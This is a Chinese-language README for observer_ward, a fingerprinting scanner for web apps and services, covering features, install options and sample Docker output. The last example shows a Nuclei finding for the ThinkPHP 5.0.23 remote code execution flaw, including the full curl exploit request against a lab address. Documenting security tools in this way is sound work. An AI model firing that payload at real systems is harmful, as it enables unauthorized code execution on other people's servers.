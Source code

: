 - 基于yaml编写探针，匹配规则和提取器
- 支持服务和Web应用版本识别
- 使用nvd标准通用平台枚举 ([CPE](https://scap.kali-team.cn/cpe/)) 命名规范
- [社区化指纹库](https://github.com/0x727/FingerprintHub)和nmap服务探针
- 集成 [Nuclei](https://github.com/projectdiscovery/nuclei) 验证漏洞

<p align="right">(<a href="#readme-top">back to top</a>)</p>



## 安装

### 源码安装

- 从源码编译安装，更多可以查看github的action工作流文件 [workflow](https://github.com/emo-crab/observer_ward/blob/main/.github/workflows/post-release.yml)

```bash,no-run
cargo build --release --manifest-path=observer_ward/Cargo.toml
```

### 二进制安装

- 从发布页面下载 [release](https://github.com/emo-crab/observer_ward/releases)
- 如果是Mac系统可以通过brew安装

### 使用Mac系统brew安装

```bash,no-run
brew install observer_ward
```

### Docker镜像

- docker镜像，`observer_ward`只有指纹识别功能

```bash,no-run
➜ docker run --rm -it kaliteam/observer_ward -t http://172.17.0.2
[INFO ] probes loaded: 2223
[INFO ] optimized probes: 7
[INFO ] target loaded: 1
|_uri:[ http://172.17.0.2/ [apache-http]  <> (200 OK) ]
|_uri:[ http://172.17.0.2/ [thinkphp]  <> (200 OK) ]
```

- `kaliteam/observer_ward:nuclei`是内置nuclei，在默认配置文件夹有`plugins`目录，但是更新时间不会最新了，是构建docker时的版本

```bash,no-run
➜  docker run --rm -it kaliteam/observer_ward:nuclei -t http://172.17.0.2 --plugin default
[INFO ] probes loaded: 2223
[INFO ] optimized probes: 7
[INFO ] target loaded: 1
|_uri:[ http://172.17.0.2/ [apache-http]  <> (200 OK) ]
|_uri:[ http://172.17.0.2/ [thinkphp]  <> (200 OK) ]
 |_exploitable: [Critical] thinkphp-5023-rce: ThinkPHP 5.0.23 - Remote Code Execution
  |_matched_at: http://172.17.0.2/index.php?s=captcha
  |_shell: curl -X 'POST' -d '_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1' -H 'Accept: */*' -H 'Accept-Language: en' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.2.1 Safari/605.3.23' 'http://172.17.0.2/index.php?s=captcha'
```


[contributors-shield]: https://img.shields.io/github/contributors/emo-crab/observer_ward.svg?style=for-the-badge
[contributors-url]: https://github.com/emo-crab/observer_ward/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/emo-crab/observer_ward.svg?style=for-the-badge
[forks-url]: https://github.com/emo-crab/observer_ward/network/members
[stars-shield]: https://img.shields.io/github/stars/emo-crab/observer_ward.svg?style=for-the-badge
[stars-url]: https://github.com/emo-crab/observer_ward/stargazers
[issues-shield]: https://img.shields.io/github/issues/emo-crab/observer_ward.svg?style=for-the-badge
[issues-url]: https://github.com/emo-crab/observer_ward/issues
[license-shield]: https://img.shields.io/github/license/emo-crab/observer_ward.svg?style=for-the-badge
[license-url]: https://github.com/emo-crab/observer_ward/blob/master/LICENSE.txt
[product-screenshot]: images/screenshot.png
[crates-shield]: https://img.shields.io/crates/v/observer_ward.svg?style=for-the-badge
[crates-url]: https://crates.io/crates/observer_ward